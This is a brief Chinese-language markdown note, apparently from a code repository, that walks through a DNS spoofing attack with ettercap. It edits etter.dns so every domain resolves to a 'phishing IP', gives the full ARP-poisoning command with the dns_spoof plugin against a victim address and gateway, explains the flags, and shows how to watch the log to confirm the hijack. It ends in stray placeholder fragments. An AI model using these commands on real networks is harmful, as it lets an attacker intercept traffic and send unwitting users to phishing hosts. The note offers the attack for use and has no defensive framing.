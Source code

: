 # 终端查看dns 命令
```
1. 查看dns缓存 ipconfig /displaydns
2. 刷新dns缓存 ipconfig /flushdns
```

# 1. 修改 /etc/ettercap/etter.dns 文件
    1. 添加下面
*   A   192.168.1.25 
*   PTR 192.168.1.25

* 代表 全部
A 代表 钓鱼ip
PTR 代表 常被用于地址代理解析

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关//
-i ：网卡
-T ：文本模式
-q ：安静模式
-M : 执行mitmI 攻击
-P ： plugin 插件
```


* 劫持 ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.1.101// /192.168.1.1// > d.txt
* 查看日志 tail -f d.txt | grep "dns_spoof"
## 劫持成功
!["dns"](./dns1.jpg)
123.34.54：8888:/asdasd/sadhkk
www.xxx.com